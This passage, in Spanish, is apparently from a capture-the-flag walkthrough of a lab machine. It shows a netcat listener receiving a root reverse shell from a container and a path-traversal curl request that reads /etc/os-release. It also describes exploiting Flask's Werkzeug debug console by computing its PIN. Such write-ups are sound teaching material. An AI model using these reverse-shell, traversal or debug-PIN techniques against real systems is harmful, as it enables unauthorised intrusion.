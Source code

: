 Esto hace que la ruta `/shell` nos devuelva una **reverse shell** por el puerto que escojamos:

```bash wrap=false
❯ sudo nc -lvnp 4444
[sudo] contraseña para zelpro: 
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.164] 45081
/bin/sh: can't access tty; job control turned off
/app # whoami
root
/app # ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
18: eth0@if19: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 02:42:ac:11:00:09 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.9/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

Vemos que estamos en un contenedor.

### Flask Debug [Unintended way]

Podemos ver que el modo **debug** de `Flask` está activado como nos muestra el repositorio. Anteriormente vimos la ruta `/console` mediante **fuzzing**:

![Protected console](./1.png)

Esto está disponible en `Werkzeug` y el PIN se computa de manera estática y se puede descifrar. Si nos fijamos en la ruta `/uploads` vemos que usa el mismo sistema que la subida de archivos, por lo que debería ser posible un **LFI**:

```bash wrap=false
curl --path-as-is http://10.10.11.164/uploads/..//etc/os-release
NAME="Alpine Linux"
ID=alpine
VERSION_ID=3.15.1
PRETTY_NAME="Alpine Linux v3.15"
HOME_URL="https://alpinelinux.org/"
BUG_REPORT_URL="https://bugs.alpinelinux.org/"
```

